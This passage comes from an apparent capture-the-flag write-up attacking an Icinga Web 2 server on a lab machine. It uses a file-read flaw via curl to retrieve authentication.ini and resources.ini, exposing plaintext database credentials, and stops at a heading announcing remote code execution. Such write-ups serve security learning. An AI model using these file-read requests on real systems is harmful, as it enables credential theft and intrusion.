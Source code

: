 What was interesting is that, this is a Windows machine but it seems a Linux container is hosting it. Next, we can note that `172.16.22.1` is hosting the DC from the hosts file we read. Next, we can attempt to read some configuration files for this Icinga instance for the authentication or anything at all. The Icinga documentation reveals that there is some stored `/etc/icingaweb2/authentication.ini`.

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini
[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

So there's a backend `db` for this website, and based on the documentation, it's likely a MySQL or PostgreSQL database.

{% embed url="https://icinga.com/docs/icinga-web/latest/doc/04-Resources/" %}

Checking the `resources.ini` file reveals some credentials.

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0
```

With these credentials, we can login to the Icinga Web instance!

<figure><img src="../../.gitbook/assets/image (16) (1) (6).png" alt=""><figcaption></figcaption></figure>

### Icinga as Matthew --> RCE
